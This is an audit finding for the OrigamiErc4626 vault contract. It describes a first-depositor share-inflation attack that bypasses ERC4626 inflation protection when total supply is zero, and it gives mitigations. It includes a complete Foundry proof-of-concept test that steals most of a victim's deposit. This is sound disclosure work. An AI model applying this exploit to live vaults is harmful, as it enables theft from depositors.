 # An attacker can front run the first depositor to inflate the share price, stealing almost all deposited value by the victim

Donation attacks are fairly common knowledge in the context of smart contract security. Even so that Openzeppelin's implementation of ERC4626 has a built in mechanism for that. In all the conversions from assets->shares and vice-versa, the calculation is done in the following way:


```solidity
    function _convertToShares(uint256 assets, Math.Rounding rounding) internal view virtual returns (uint256) {
        return assets.mulDiv(totalSupply() + 10 ** _decimalsOffset(), totalAssets() + 1, rounding);
    }

    function _convertToAssets(uint256 shares, Math.Rounding rounding) internal view virtual returns (uint256) {
        return shares.mulDiv(totalAssets() + 1, totalSupply() + 10 ** _decimalsOffset(), rounding);
    }
```

Even when the value of `_decimalsOffset()` is set to 0 (which is the default value), adding `+1` in both numerator and denominator makes the attack unprofitable. Even though the shares _can_ be inflated, the inflated value is not accessible by the attacker and is effectively lost. So there is a very high risk for the attacker, and therefore the likelyhood of the attack is very low.

However, `OrigamiErc4626` has a small modification in those two critical functions that bypass this protection mechanism in an special scenario: when `_totalSupply==0`.

```solidity
    function _convertToShares(uint256 assets, OrigamiMath.Rounding rounding) internal view virtual returns (uint256) {
        uint256 _totalSupply = totalSupply();
        // @audit-issue this special case of _totalSupply==0 bypasses the actual shares-inflation attack protection ... ?
        return _totalSupply == 0
            ? assets.scaleUp(_assetsToSharesScalar)
            : assets.mulDiv(_totalSupply + DECIMALS_OFFSET_SCALAR, totalAssets() + 1, rounding);
    }

    function _convertToAssets(uint256 shares, OrigamiMath.Rounding rounding) internal view virtual returns (uint256) {
        uint256 _totalSupply = totalSupply();
        return _totalSupply == 0
            ? shares.scaleDown(_assetsToSharesScalar, rounding)
            : shares.mulDiv(totalAssets() + 1, _totalSupply + DECIMALS_OFFSET_SCALAR, rounding);
    }
```

## Impact: medium/high

Once the vault is deployed, an attacker can frontrun the first honest depositor, and steal the full deposit of the victim. The attack can be repeated for multiple "first" depositors. 

Pre-conditions for the attack:
- `OrigamiErc4626` is deployed
- There are no default deposits made by the deployer because the attacker must be the first depositor 


### Risk classification

This issue has been classified as **high-risk** issue several times in the past:
- https://solodit.xyz/issues/h-02-first-depositor-can-break-minting-of-shares-code4rena-prepo-prepo-contest-git
- https://solodit.xyz/issues/h-03-stakedcitadel-depositors-can-be-attacked-by-the-first-depositor-with-depressing-of-vault-token-denomination-code4rena-badgerdao-badger-citadel-contest-git
- https://solodit.xyz/issues/m-10-new-galcx-token-denomination-can-be-depressed-by-the-first-depositor-code4rena-alchemix-alchemix-contest-git


However, I believe this classification is only valid in systems when the pool is deployed multiple times with a factory or similar. In this case, where the contract is deployed only once, the issue could be considered as **medium-risk** severity. 

However, the amount of assets that are at risk of this attack is not negligible. 

## Attack description

When no deposits have been made yet, and the first honest depositor initiates his transaction, 
the attacker front runs the honest deposit with:
- a deposit of a little amount (see PoC)
- a donation of `asset` to the contract

Then the hones deposit tx goes through, where assets are deposited, but no shares are minted. The depositor has lost his assets to the vault already. 

The second part of the attack is about getting the assets out of the vault. The attacker has to:
- Redeem his shares so that the `totalSupply == 0`, even though there are assets in the contract
- Make a new deposit (of a normal size), getting some shares minted to him
- Redeem those recently minted shares, which correspond to the majority of the assets in the vault (up to 98% in the proof of concept).

### Mitigation

1. Do not bypass the inflation-protection mechanism, even when `totalSupply==0`. 
2. Require a minimum deposit amount.
3. Revert if minted shares are 0 (to protect `alice`). I think this should be in place no matter what other mitigations are implemented.
4. Mint a small amount of shares to a dead address at deployment ($1 worth should be enough)

We can discuss further options. 

### Proof of code

The following proof of code proves that an `attacker` can frontrun `alice` and end up stealing almost all her deposit. 

To run it, add it to `test/foundry/unit/common/erc4626/OrigamiErc4626.t.sol::OrigamiErc4626TestPermit.t.sol`. 

```solidity

contract OrigamiErc4626TestAttacks is OrigamiErc4626TestBase {

    function test_erc4626_donationAttack() public {

        // declarations
        address attacker = makeAddr("atacker");
        uint256 initialAttackerAssets = 15_000e18;
        
        // preparations & context
        deal(address(asset), alice, 5000e18);
        deal(address(asset), attacker, initialAttackerAssets);
        assertEq(vault.balanceOf(alice), 0);

        vm.prank(alice);
        asset.approve(address(vault), type(uint256).max);
        vm.prank(attacker);
        asset.approve(address(vault), type(uint256).max);

        // the attack beings. The attacker must be the first depositor of the vault, 
        // so he must front-run the first depositor (alice)  
        vm.prank(attacker);
        vault.deposit(3, attacker);
        // the first deposit gets scaled by 1, but some rounding-down cause the actual shares to be 1 less
        // the current share price after the first deposit is 2share=3assets 
        assertEq(vault.totalSupply(), 2);
        assertEq(vault.totalAssets(), 3);
        assertEq(vault.convertToShares(3), 2);

        // right after the deposit, the attacker makes a big donation of `asset` 
        // to inflate the share price
        vm.prank(attacker);
        asset.transfer(address(vault), 10_000e18);
        // Even though the price of 1 share should be inflated to around 5k (~10k assets for 2 shares), 
        // the inflation-protection mechanism and rounding directions makes it only 3333k
        assertEq(vault.convertToAssets(1), 3333_333333333333333334);
        // attacker still rightfully owns all shares in the vault
        assertEq(vault.totalSupply(), 2);
        assertEq(vault.balanceOf(attacker), vault.totalSupply());

        // An honest depositor deposits some amount of assets
        // The donation from the attacker should leave the share price just above 
        // the amount deposited by the honest depositor (3000 deposited < 3333 share price)
        // Alice receives then 0 shares, and the attacker still owns 100% of the totalSupply
        vm.prank(alice);
        vault.deposit(3000e18, alice);
        assertEq(vault.balanceOf(alice), 0);
        assertEq(vault.balanceOf(attacker), vault.totalSupply());

        // Thanks to the inflation-attack-protection inside convertToAssets(), 
        // even though the attacker owns 100% of the shares, 
        // only a portion of them can be withdrawn. The attacker is currently at a loss.
        assertEq(vault.maxWithdraw(attacker), 4333_333333333333333334);

        // However, the inflation-attack-protection is bypassed
        // when the totalSupply is back to 0, and the attacker owns the totalSupply.
        // Therefore he can redeem all the shares, leaving totalSupply=0 
        vm.startPrank(attacker);
        vault.redeem(vault.maxRedeem(attacker), attacker, attacker);
        assertEq(vault.totalSupply(), 0);
        assertEq(vault.balanceOf(attacker), 0);
        // Now that totalSupply==0, the attacker will get the same
        // number of shares as the assets deposited (except for the rounding-down)
        // All it takes to own again all assets is to make a new deposit (non-negligible deposit)
        vault.deposit(1000e18, attacker);

        // Now the attacker can withdraw almost the full balance from the vault (98% of the assets)
        assertEq(vault.totalSupply(), vault.balanceOf(attacker));
        assertApproxEqRel(vault.maxWithdraw(attacker), asset.balanceOf(address(vault)), 0.02e18);  // 2% error allowed

        // When the attacker redeems his shares, he has profited from alice
        vault.redeem(vault.maxRedeem(attacker), attacker, attacker);
        assertGt(asset.balanceOf(attacker), initialAttackerAssets);
        // to be more precise, he has now his initial supply, plus 2806, which is 93.3 % of alice assets
        assertEq(asset.balanceOf(attacker), initialAttackerAssets + 2806_666666666666666658);

        vm.stopPrank();
    }
}
```
